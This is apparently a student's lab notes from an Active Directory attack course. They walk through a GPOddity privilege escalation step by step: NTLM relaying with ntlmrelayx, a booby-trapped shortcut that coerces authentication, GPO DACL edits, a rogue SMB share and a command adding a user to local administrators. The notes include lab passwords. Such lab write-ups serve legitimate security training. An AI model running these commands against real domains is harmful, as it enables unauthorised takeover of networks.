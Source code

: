 A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

This enables loading of a malicious template from a location that we
control.


![[Pasted image 20250505062951.png]]

Open WSL Ubuntu shell and start NTLM relay (relay) - WSLToTh3Rescue!
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.48 --http-port '80,8080' -i --no-smb-server
```

Create new shortcut with this command and place in writable share
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke WebRequest -Uri 'http://172.16.100.48' -UseDefaultCredentials"

xcopy .\student548.lnk \\dcorp-ci\AI
```

After relay connect to shell
```bash
nc 127.0.0.1 11000
```

Delegate `WriteDACL` permissions to the group policy the relayed user can control
```bash
write_gpo_dacl student548 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

**OR** we can add a computer and use those credentials
```bash
add_computer stdx-gpattack Secretpass@123

write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

Run GPOddity to edit Group Policy
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ' --command 'net localgroup administrators studentx
/add' --rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'std548-gp' -
-dc-ip '172.16.2.1' --smb-mode none
```

Move group policy files from GPOddity to new share folder
```bash
mkdir /mnt/c/AD/Tools/std548-gp

cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std548-gp
```

From Admin CMD create a the file share called `std548-gp` and grant full perms to everyone
```powershell
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full

icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```

Check `gpcfilesyspath`
```powershell
Get-DomainGPO  -Identity "DevOps Policy"
```

Wait for Group Policy to refresh and test new privileges
```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"
```